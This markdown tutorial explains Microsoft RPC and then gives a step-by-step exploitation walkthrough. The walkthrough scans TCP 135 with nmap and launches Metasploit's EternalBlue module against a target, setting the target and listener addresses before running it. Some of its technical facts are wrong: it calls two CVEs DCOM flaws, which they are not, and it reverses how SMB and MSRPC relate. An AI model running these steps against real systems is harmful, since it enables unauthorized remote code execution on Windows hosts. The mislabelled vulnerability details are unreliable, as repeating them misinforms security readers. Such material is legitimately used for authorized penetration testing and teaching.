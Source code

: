 ## Overview of Microsoft Remote Procedure Call (MSRPC)

**Microsoft Remote Procedure Call (MSRPC)** is a protocol that allows software applications to communicate with each other over a network. It is a core component of the Windows operating system, enabling various services and applications to perform remote operations. MSRPC is built on top of the DCE/RPC (Distributed Computing Environment/Remote Procedure Calls) protocol and is used extensively in Windows for inter-process communication.

### Key Features of MSRPC

- **Inter-Process Communication**: MSRPC facilitates communication between processes on different machines, allowing for remote execution of functions.
- **Service Discovery**: It provides mechanisms for clients to discover available services on a server.
- **Security**: MSRPC supports various authentication methods, including NTLM and Kerberos, to secure communications.
- **Multiple Protocols**: It can operate over different transport protocols, including TCP and UDP.

### Common Use Cases

- **Windows Services**: Many Windows services, such as file sharing (SMB), printer sharing, and Active Directory, rely on MSRPC for remote operations.
- **Management Tools**: Tools like Windows Management Instrumentation (WMI) and Remote Procedure Call (RPC) Endpoint Mapper use MSRPC for remote management tasks.

### Exploiting MSRPC

Exploiting MSRPC vulnerabilities typically involves identifying weaknesses in the services that use the protocol. Here are some common methods and tools used to exploit MSRPC:

#### 1. Identifying Vulnerabilities

Before exploiting MSRPC, you need to identify potential vulnerabilities. This can be done using tools like:

- **Nmap**: Use Nmap with the `-p` option to scan for open MSRPC ports (typically TCP 135) and check for vulnerabilities.
  
  ```bash
  nmap -p 135 <target_ip>
  ```

- **Metasploit**: The Metasploit Framework has modules specifically designed for exploiting MSRPC vulnerabilities. You can search for relevant modules using:

  ```bash
  search msrpc
  ```

#### 2. Common Exploits

Some well-known vulnerabilities that can be exploited via MSRPC include:

- **MSRPC DCOM Vulnerabilities**: Vulnerabilities in the Distributed Component Object Model (DCOM) can allow remote code execution. For example, CVE-2003-0533 and CVE-2008-4250 are notable vulnerabilities.

- **EternalBlue**: This exploit targets a vulnerability in the SMB protocol, which uses MSRPC for communication. It allows for remote code execution and was famously used in the WannaCry ransomware attack.

#### 3. Using Metasploit for Exploitation

To exploit an MSRPC vulnerability using Metasploit, follow these steps:

1. **Start Metasploit**:

   ```bash
   msfconsole
   ```

2. **Search for an MSRPC Exploit**:

   ```bash
   search msrpc
   ```

3. **Select an Exploit**:

   Choose an appropriate exploit from the search results. For example, to use the EternalBlue exploit:

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **Set Required Options**:

   Configure the target IP and any other necessary options:

   ```bash
   set RHOST <target_ip>
   set LHOST <your_ip>
   ```

5. **Run the Exploit**:

   Execute the exploit:

   ```bash
   exploit
   ```

### Considerations

- **Ethical Use**: Exploiting vulnerabilities without permission is illegal and unethical. Always ensure you have explicit authorization before testing or exploiting any systems.
- **Detection**: Many organizations have security measures in place to detect and prevent exploitation attempts. Be aware of potential countermeasures.
- **Patch Management**: Regularly update and patch systems to mitigate vulnerabilities associated with MSRPC and other protocols.

MSRPC is a powerful protocol that plays a critical role in Windows networking. Understanding its functionality and potential vulnerabilities is essential for security professionals and penetration testers. By using tools like Metasploit and Nmap, you can identify and exploit weaknesses in systems that rely on MSRPC for communication.